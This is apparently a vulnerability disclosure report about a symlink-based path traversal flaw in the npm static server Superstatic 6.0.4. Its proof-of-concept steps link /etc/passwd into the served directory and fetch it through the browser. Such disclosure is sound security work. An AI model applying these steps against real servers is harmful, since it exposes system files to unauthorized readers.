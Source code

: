 ## Description

I would like to report path traversal vulnerability in Superstatic module
It allows an attacker to read system files via path traversal vulnerability

Module
-------------------------------------------
module name: Superstatic
version: 6.0.4
npm page: https://www.npmjs.com/package/superstatic

Module Description

Superstatic is an enhanced static web server that was built to power. It has fantastic support for HTML5 pushState applications, clean URLs, caching, and many other goodies.
By default, Superstatic will simply serve the current directory

Weekly Downloads
-------------------------------------------
335,788

Vulnerability Description
-------------------------------------------
With a symbolically linked file in the working directory, it is possible to read arbitrary files outside of the web root directory.


## POC

Steps To Reproduce:
-------------------------------------------

1)Install the Superstatic module
$ npm install -g superstatic

2)Make a directory
$ mkdir test

3)Go to 'test' directory
$ cd test

4)create a symlink file
ln -s /etc/passwd 'filename'

5)Run Superstatic module
$ Superstatic

6)Request the file within browser
http://localhost:3474/'filename'


Supporting Material/References:
-------------------------------------------

These are similar reports
https://hackerone.com/reports/510043
https://hackerone.com/reports/695416


Impact
-------------------------------------------
This could have enabled an attacker to view system files and leverage attacks like remote code execution and so on
